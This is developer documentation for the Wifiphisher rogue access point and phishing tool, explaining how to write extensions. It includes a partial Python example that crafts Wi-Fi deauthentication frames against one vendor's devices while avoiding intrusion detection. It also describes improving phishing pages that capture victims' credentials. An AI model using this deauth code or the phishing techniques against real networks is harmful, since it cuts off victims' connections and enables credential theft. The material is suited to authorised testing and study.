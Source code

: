 Extensions
==========

Wifiphisher supports a scripting engine that allows users to write simple or
complicated modules in Python that are executed in parallel with efficiency and
expand the functionality of the tool. The extensions leverage a virtual wireless
interface that may or may not correspond directly to a physical card and 
operates in Monitor Mode, hence the extensions can read and write raw 802.11 packets.

Normally, the monitor interface is set in the same channel as the rogue Access
Point. However, if two physical cards are available on the system, Wifiphisher
will perform channel hopping to all the channels that are interesting to the
running extensions. 

Wifiphisher extensions do not run in a sandbox, hence it is recommended to never
run extensions from third parties unless you have carefully audited them
yourself.

The extensions typically fit in at least one of the below categories:

* Wi-Fi attacks. This is the most common case of an extension. Both denial-of-service (i.e. victim de-authentication) and automatic association attacks fit in this category.

* Phishing enhancements. In this category fit all the extensions that enhance a phishing scenario with various techniques. For example, we can dynamically adjust the phishing interface with something familiar to the victim user to create a more realistic page.  We can also perform various checks on the captured credentials to check their validity and present a relevant error message to the victim user. 

* Other. The rest of the extensions fall in this category. The examples here include binding Wifiphisher with another tool upon a specific event, printing custom UI messages or interacting with roguehostapd. 


Developing a Wifiphisher Extension
----------------------------------

In order to create an extension, the developer needs to create a file under the
"wifiphisher/extensions" directory. The first step is to define a class that has the 
name of the filename in camelcase. For example, deauth.py would have a Deauth()
class. Then the following callback methods are required:


*__init__(self, shared_data)*: Basic initialization method of the extension
where The extension manager passes all the data that may be required. The
shared_data is actually a dictionary that holds the following information:

.. code:: python

        shared_data = {
                        'is_freq_hop_allowed' boolean
                        'target_ap_channel': str
                        'target_ap_essid': str
                        'target_ap_bssid': str
                        'target_ap_encryption': str
                        'target_ap_logo_path': str
                        'rogue_ap_mac': str
                        'APs': list
                        'args': args
                    }


'APs' is a list of dictionaries where each dictionary represents an Access Point
discovered during the reconnaissance phase.

.. code:: python 

        AP = 'channel': str
        'essid': str
        'bssid': str
        'vendor': str

'args' is an argparse object containing all the arguments provided by the user. 

Note that the above values may be ‘None’ accordingly. For example, all the
target_* values will be None if there user did not target an Access Point (by
using --essid option). The ‘target_ap_logo_path’ will be None if the logo of the
specific vendor does not exist in the repository.          

*send_channels(self):* This callback is called once and the extension needs to
return a list of integers for all the channels that is interested to listen. The
Extension Manager will merge all the received lists to create a final list with
the channels that the monitor card needs to hop. 

*get_packet(self, pkt):* Callback to process individually each packet captured
from the interface in monitor mode and also send any frames in the air. The pkt
is actually a Scapy Dot11 packet. This callback needs to return a dictionary
with the channel number as the key and a list with the Dot11 packets as the
value.

The asterisk "*" as a key has a special meaning in this dictionary. It basically
means "send this packet to whichever channel is available". The reason for this,
is that we may want to broadcast frames without caring about the channel number.
For example, beacon frames that will always be processed by the stations that
perform passive scanning where channel number is not important. Instead of
putting a random channel number, we can put the asterisk to make our attack more
efficient.

For example,

{"6": Dot11_pkt1,
"*": Dot11_pkt2}

The above dictionary will instruct the Extension Manager to route Dot11_pkt1 to
channel 6 and Dot11_pkt2 to whatever available channel it can. That means that
if another extension is loaded and is sending frames to channel 7, the
Dot11_pkt2 will be sent to both channels 6 and 7.

*send_output(self):* Callback that returns in a list of strings the entry logs that
we need to display in the main screen. This callback is called almost continuously.

*on_exit(self):* Callback that is called once upon the exit of the software to
allow to the extensions to free any resources or perform other cleanup
operations.

As we mentioned earlier, an extension may perform a server-side processing of
the data received by the victim users during a phishing operation. Or an extension may dynamically adjust the phishing page upon render. For these cases, we use two special decorators "@uimethods.uitmethod" and "@extensions.register_backend_funcs". For more information on these, please read the tutorial on how to create a custom phishing scenario.

Now let's consider an example. Let's suppose that during a penetration testing,
"we noticed that the target infrastructure is using Internet-of-Things devices
from the Octonion S.A. As part of our testing, we want to run Wifiphisher and
get man-in-the-middle position in these devices. We also know that the target
infrastructure has employed a WIDS to detect intense deauth attacks. For this
reason, We want our attack to be limited to the Octonion devices only. We also
want to receive a status email now and then. 

Since what we want to do is a more complicated case, Wifiphisher options aren't
really helpful here. But luckily we can write our own extension to customize our
attack.

Here is what our extension will look like:


.. code:: python

        class deauthOctanion(): # Assuming filename is deauthoctanion.py

            def __init__(self, shared_data):
                self.data = shared_data
                self._packets_to_send = defaultdict(list)

            @staticmethod
            def _extract_bssid(packet):
                """
                Return the bssid of access point based on the packet type
                :param packet: A scapy.layers.RadioTap object
                :type packet: scapy.layers.RadioTap
                :return: bssid or None if it is WDS
                :rtype: str or None
                .. note: 0 0 -> IBBS
                         0 1 -> from AP
                         1 0 -> to AP
                """

                ds_value = packet.FCfield & 3
                to_ds = ds_value & 0x1 != 0
                from_ds = ds_value & 0x2 != 0

                # return the correct bssid based on the type
                return ((not to_ds and not from_ds and packet.addr3)
                        or (not to_ds and from_ds and packet.addr2)
                        or (to_ds and not from_ds and packet.addr1) or None)

            def send_channels(self):
                return [1,2,3,4,5,6,7,8,9,10,11,12]

            def get_packet(self, pkt):

                bssid = self._extract_bssid(pkt)
                # If this is an Octonion SA
                if bssid.startswith("9C:68:5B"):
                    # craft Deauthentication packet
                    deauth_part = dot11.Dot11(
                        type=0, subtype=12, addr1=receiver, addr2=sender, addr3=bssid)
                    deauth_packet = (dot11.RadioTap() / deauth_part / dot11.Dot11Deauth())
                    if deauth_packet not in self._packets_to_send["*"]:
                        self._packets_to_send["*"] += deauth_packet

                    # Send Output
                    self.send_output = True

                return self._packets_to_send


            def send_mail():
                ...

            def send_output(self, pkt):
                if self.send_output:
                    self.send_mail()
                    return ["Found an Octonion device!"]
                
            def on_exit(self):
                pass


The above code should be self-explanatory. This is of course the basic skeleton.
The full code is left as an exercise for the reader :)

